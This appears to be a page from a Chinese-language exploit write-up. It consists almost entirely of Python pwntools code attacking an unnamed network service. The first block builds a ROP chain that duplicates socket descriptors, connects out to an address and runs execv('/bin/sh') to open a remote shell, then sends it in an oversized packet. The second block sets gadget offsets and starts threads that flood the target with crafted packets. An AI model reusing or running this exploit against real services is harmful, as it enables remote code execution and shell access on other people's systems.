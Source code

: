 ```python
rop_chain += p64(pop_rsi_ret_addr) + p64(2)
rop_chain += p64(dup2_addr)
# connect(fd, (struct sockaddr *)&serv_addr, sizeof(serv_addr));
rop_chain += p64(pop_rdi_ret_addr) + p64(7)
rop_chain += p64(pop_rsi_ret_addr) + p64(sockaddr_addr)
rop_chain += p64(pop_rdx_ret_addr) + p64(16)
rop_chain += p64(connect_addr)
# execv("/bin/sh", NULL)
rop_chain += p64(pop_rdi_ret_addr) + p64(binsh_addr) 
rop_chain += p64(pop_rsi_ret_addr) + p64(0)
rop_chain += p64(execv_addr)
rop_chain.rjust(0x900000, b'\x00')
    
p = remote(ip, port, )
packet = p32(0x2) + p32(0) + p32(0) + \
         p32(0x900000) + rop_chain + \
         p32(0) + b'a'*0x40
             
p.sendline(packet)
```

## 漏洞利用代码

```python
#!/usr/bin/python

# Author: qiutianshu
# Date: 2025/05/21

from pwn import *
from socket import *
import sys
import threading

text_off = 0x8e000
ret_offset = 0x8E01A - text_off
pop_rdi_ret = 0x560a27 - text_off
pop_rsi_ret = 0x164dfe - text_off
pop_rdx_ret = 0xe4192- text_off
pop_rax_ret = 0x21c987 - text_off
pop_rbx_ret = 0x1d73d5 - text_off
pop_rcx_ret = 0x2235f2 - text_off
xchg_rdi_rax_ret = 0x146eebc - text_off

def tmp_thread(ip, port):
    s = socket(AF_INET, SOCK_STREAM)
    s.connect((ip, port))
    packet = p32(0x2) + p32(0) + p32(9) + p32(0x6) + b'tmptmp' + p32(0) + b'a'*0x40
    s.sendall(packet)
    while True:
        pass

def long_live_thread(ip, port):
    s = socket(AF_INET, SOCK_STREAM)
    s.connect((ip, port))
    packet = p32(0x2) + p32(0) + p32(9) + \
        p32(0xdee870) + b'\x03' *  0xdee870
        
    s.sendall(packet)
    packet = b'\x04' * 0x80 + p32(1)
    s.sendall(packet)
    while True:
        pass
```